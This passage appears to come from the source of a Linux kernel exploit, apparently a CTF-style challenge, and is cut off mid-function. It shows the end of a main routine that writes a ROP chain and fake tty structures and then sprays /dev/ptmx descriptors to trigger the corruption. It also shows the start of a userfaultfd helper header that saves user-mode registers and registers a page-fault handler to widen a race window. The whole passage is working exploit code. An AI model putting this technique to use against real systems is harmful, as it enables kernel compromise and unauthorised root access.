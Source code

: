 ```c

    write(fd, rop, fake_stack_idx);
    write(fd, fake_tty_ops, fake_ttyops_idx);
    write(fd, fake_tty, hit_idx);
    printf("\033[1;32mEvil data written, ready to exploit....\n\033[m");

    sleep(2);
    for(int i=0; i<0x60; i++)
        write(ptmx_fds[i], page, 200);

    return 0;
}
```
uffdexploit.h:
```c
//
// Created by root on 22-7-28.
//
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <ctype.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>

static pthread_t monitor_thread;
size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\n\033[0m");
}

void errExit(char * msg)
{
    printf("\033[1;31m[x] Error: %s\n\033[m", msg);
    exit(EXIT_FAILURE);
}

/**
 * 为一块指定地址addr、大小len的内存空间注册缺页异常函数handler
 */
void registerUserFaultFd(void * addr, unsigned long len, void* (*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

```
